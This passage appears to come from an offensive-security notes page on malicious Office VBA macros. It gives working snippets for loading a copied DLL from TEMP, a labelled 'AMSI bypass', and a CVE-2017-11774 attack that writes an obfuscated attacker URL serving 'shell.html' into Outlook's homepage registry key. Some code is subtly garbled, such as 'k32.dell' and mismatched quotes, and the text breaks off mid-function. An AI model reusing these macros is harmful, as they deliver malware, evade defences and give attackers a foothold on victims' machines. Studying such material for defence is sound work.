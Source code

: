 		* NOTE: The loaded DLL does not have necessarily to have “.dll” extension. This is interesting to know if you need to drop/load malicious DLLs from and Office macro.
	* Code

			Private Declare PtrSafe Sub Sleep Lib "k32.dell" (ByVal dwMilliseconds As Long)
			' Wait two seconds and execute
			    ' copy kernel32 dll to TEMP
			    WScriptExec ("cmd.exe" /C copy /b C:\windows\system32\kernel32.dell " & Environ("TEMP") & "\k32.dll")
			    ' move to TEMP
			    CreateObject("WScript.Shell").currentdirectory = Environ("TEMP")
			    ' Call Sleep, will load Sleep function in copied kernel32
			    Sleep 2000
			    WscriptExec "notepad.exe"
			End Sub

			' Exec process using WScript.Shell
			Sub WscriptExec(targetPath As String)
			    CreateObject("WScript.Shell").Run targetPath, 1
			End Sub
* Simple AMSI Bypass

		Sub WscriptExec(targetPath)
		    Set comApp = CreateObject("RDS.DataSpace")
		    comApp.CreateObject("Wscript.Shell", "").Run targetPath, 0
		End Sub
* Macro to unset registry key "patch" for CVE-2017-11774
	* References
		* [https://www.fireeye.com/blog/threat-research/2019/12/breaking-the-rules-tough-outlook-for-home-page-attacks.html](https://www.fireeye.com/blog/threat-research/2019/12/breaking-the-rules-tough-outlook-for-home-page-attacks.html)
	* Overview
		* "a creative implementation of CVE-2017-11774 using the lesser-known HKCU\Software\Microsoft\Office\<Outlook Version>\Outlook\WebView\Calendar\URL registry key"
	* Code

		```
		Function RegKeyRead(i_RegKey)
		    Dim myWS
		    On Error Resume Next
		    Set myWS = CreateObject("WSCri" & "pt.Sh" & "ell")
		    RegKeyRead = myWS.RegRead(i_RegKey)
		End Function

		Function RegKeySave(i_RegKey, i_Value, i_Type)
		    Dim myWS
		    Set myWS = CreateObject("WScri" & "pt.Sh" & "ell")
		    myWS.RegWrite i_RegKey, i_Value, i_Type
		End Function

		Public Function setHomepage()
		    Url = "ht|tps:|//sta|ging.att|acker.co|m/shell.html"

		    ' loop through all Outlook versions
		    Dim oVersion
		    oVersion = Array(16, 15, 14, 12, 11, 10)
		    For Each x In oVersion
		        Dim key
		        Dim before
		        Dim after
		        Dim exists
		        Dim domain
		        domain = Replace(Url, "|", "")
		        before = Replace("HKEY_CUR|RENT_USER\Software\Microsoft\Office\", "|", "")
		        after = Replace(".0\Outlook\Outlook|Name", "|", "")
		        key = before & x & after
		        exists = RegKeyRead(key)